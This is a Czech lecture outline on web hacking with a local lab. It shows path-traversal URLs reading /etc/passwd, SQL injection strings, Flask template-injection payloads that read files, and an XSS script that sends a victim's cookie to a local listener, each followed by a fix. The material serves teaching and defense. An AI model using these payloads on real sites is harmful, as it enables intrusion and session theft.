 # Hackování webů

Osnova a příprava přednášky.

Příprava PHP prostředí:
```sh
sudo apt install php-fpm php-sqlite3
sudo cp etc/php-fpm-jirka.conf /etc/php/8.2/fpm/pool.d/
sudo systemctl restart php8.2-fpm.service
nginx -p $(pwd) -c etc/nginx.conf
```

Cleanup PHP prostředí:
```sh
sudo /etc/php/8.2/fpm/pool.d/php-fpm-jirka.conf
sudo systemctl restart php8.2-fpm.service
```

## Jak funguje web?

Budeme dělat celkem tři typy útoků:

1. Útok na web samotný = přesvědčit web, aby udělal něco, co chci)
2. Útok na uživatele = přesvědčit uživatele (nebo jeho prohlížeč :D), aby udělal, co chci
3. Útok mezi = odposlouchávat nebo narušovat komunikaci (MITM = Man-in-the-middle)

Abychom věděli, jak se dá útočit, musíme nejdřív pochopit základ webu:

- Protokol HTTP = HyperText Transfer Protocol
  - request a odpověď (metody requestu - GET/POST/...)
  - obsahuje hlavičky
  - podívejme se na nějaký (`curl -v https://smf.mff.cuni.cz/`)
- Je bezestavový = server každý request obsluhuje samostatně
  - Klient (browser) mu předá informace:
    - cesta (`index.php`) + argumenty cesty (`?akce=zprava`)
    - tělo requestu (tudy jdou POST argumenty)
    - hlavičky
      - takhle typicky funguje přihlášení - **Cookies**

Ukázka GET+POST formů: http://localhost:7000/

## Útoky na server

### 1. Neošetření uživatelského vstupu - cesty (PHP)

Ukázka:
* http://localhost:7001/
* http://localhost:7001/?stranka=kontakty
* http://localhost:7001/?stranka=../../db.conf
* http://localhost:7001/?stranka=../../../../../../../etc/passwd
* bonus: http://localhost:7001/?stranka=../index.php :D

Oprava:
* http://localhost:7001/index2.php
* http://localhost:7001/index2.php?stranka=../../db.conf
* http://localhost:7001/index2.php?stranka=../../../../../../../etc/passwd

### 2. Upload souboru (PHP)

* upload souborů je nebezpečný
  * formulář na upload obrázků do složky images/ (aby šly použít třeba v komentářích)
  * http://localhost:7002/
  * umožňuje ale i upload třeba souboru `02_upload/utok.php`
    * je to PHP soubor s příponou .php -> přistoupíme do http://localhost:7002/images/utok.php
    * ... a můžeme dělat cokoliv, co nám PHP povolí
* obrana:
  * kontrolovat důkladně soubory
  * nebo jim dokonce dávat generická jména
  * http://localhost:7002/index2.php

### 3. SQL injection (PHP)

* občas potřebujeme databázi, ukázka na http://localhost:7003/
  * jednoduchá aplikace - ukládám a získávám klíče

Můžeme zkusit poslat zajímavé payloady:
* https://xkcd.com/327/ :D

```sql
' OR 'a'='a`
" OR "a"="a`
```

Když chceme přidat něco dalšího (třeba LIMIT), lze využít trik s SQL komentářem
(za komentářem musí být mezera):

```sql
' OR 1 = 1 LIMIT 1 OFFSET 1; --
' OR 1 = 1 LIMIT 1 OFFSET 2; --
```

Jak se bránit? Escapovat!
* ideálně jazykové knihovny, ruční escapování je náchylné k tomu napsat správně
  a escapovat všechny speciální znaky
  * jak escapuje SQLite, víme to?
    * https://www.sqlite.org/lang_expr.html
    * zdvojuje `'`
    * lepší použít `SQLite3::escapeString` funkci
  * jak escapuje MySQL?
    * https://www.php.net/manual/en/security.database.sql-injection.php
    * escapuje pomocí `\`
    * lepší použít

* nebo lze použít předpřipravené SQL statementy a doplnit jako proměnné
* oboje viz index2.php

### 4. Template injection (Python)

* inspirace: TheCatch (CTF hra) https://thecatch.cz/
* potřeba spustit samostatně jako Python projekt:

```sh
cd 04_template_injection
python -m flask --app app run
# opravená verze:
python -m flask --app app2 run
```

Když navštívíme stránku, tak dostaneme hned přesměrování na URL
<http://127.0.0.1:5000/hello/user>, kde se nám zobrazí "Hello user". To svádí k
tomu napsat do URL něco jiného… a skutečně, když změníme poslední část na
cokoliv, tak se to vypíše.

Zkusme, jestli se tím nedá provést nějaký code injection do šablonovacího
systému. První bychom potřebovali zjistit, v jakém jazyce je web napsaný. Zkusme
nejdříve, jestli to není Python, třeba payloadem "+__file__+". Zobrazí se nám
"Hello /app/app.py", je to Python!

Nyní si můžeme zkoušet hrát. Zkusme si vypsat zdrojový kód souboru app.py
payloadem "+str(open(__file__).read())+" (odkaz). V tuto chvíli je dobré si
zobrazit HTML kód stránky, ať vidíme kód aspoň trochu formátovaný:

Vidíme, že je jedná o skutečně jednoduchou aplikaci napsanou v Pythonu pomocí
webového frameworku Flask. Pojďme tedy zkoumat systém:

* Vypsání `/etc/passwd`: `"+str(open('/etc/passwd').read())+"` [odkaz](http://127.0.0.1:5000/hello/%22+str(open(%22/etc/passwd%22).read())+%22)
* Vylistování `/home/smf`: `"+str(__import__("os").listdir("/home/smf"))+"` [odkaz](http://127.0.0.1:5000/hello/%22+str(__import__(%22os%22).listdir(%22/home/smf%22))+%22)
* Přečtení `/home/smf/.bashrc`: `"+str(open("/home/smf/.bashrc").read())+"` [odkaz](http://127.0.0.1:5000/hello/%22+str(open(%22/home/smf/.bashrc%22).read())+%22)

**Jak to opravit?**

* odstranit `eval` :D (v tomhle případě)
* obecně nevěřit vstupu od uživatele - uživatelé se dělí na dva typy - hloupí uživatelé a útočníci

Teaser na další část (na XSS): http://127.0.0.1:5000/hello/%3Cscript%3Ealert(1)%3C/script%3E

## Útoky na uživatele

* umožněné špatnou implementací webu

https://medium.com/@dilarauluturhan/javascript-xss-cross-site-scripting-and-csrf-cross-site-request-forgery-6f0f4baa2fb1

### 5. XSS = Cross-site scripting (příklad: krádež cookie)

* vložíme zlý Javascript do komentáře na stránce http://localhost:7005/
  * stránka, kam lze psát příspěvky
  * může se přihlásit admin a příspěvky mazat
* použijeme druhý prohlížeč simulující útočníka:
  * nejprve vložíme `<script>alert(1)</script>` a otestujeme, že to otravuje všechny
  * admin to pak smaže a přidá třeba varování
  * my přidáme další příspěvek vytahující přes javascript jeho cookie

Útok:

1. Pustíme si `listener.py`
2. Vložíme příspěvek
   ```html
   <script>var i=new Image;i.src="http://127.0.0.1:8888/?"+document.cookie;</script>
   ```
3. Počkáme, než si admin zobrazí tuhle stránku a javascript nám nepošle request
4. Zkopírujeme si obsah PHPSESSID a voilá, jsme admin :D

https://github.com/R0B1NL1N/WebHacking101/blob/master/xss-reflected-steal-cookie.md

### 6. CSRF

* nebudu útočit na web přímo, ale budu útočit přes uživatele
  * jiný uživatel (typicky administrátor) má výrazně větší práva
  * můžu ho donutit udělat něco, co nechce

* Jednoduchý web podobný příkladu v XSS, ale jenom přihlášený může přidávat příspěvky a lajkovat je: http://localhost:7006/

* přinutíme přihlášeného administrátora navštívit náš web:
  * http://localhost:7016/ -> rozcestník
  * http://localhost:7016/utok1.html -> přes obrázek (GET)
  * http://localhost:7016/utok2.html -> přes odeslání formu ve skrytém iframe (POST)

* Obrana: CSRF cookie:
  * cílem je zařídit, aby útočník nevěděl, co má poslat
  * do formu přidáme speciální klíč (CSRF token)
    * hodnota předaná v cookie
    * pokud není nasetována cookie, nasetujeme ji na random hodnotu


## Útoky MITM

* s HTTPS je těžké
* obecně povídání o certifikátech a certifikačních autoritách
  * Lets Encrypt
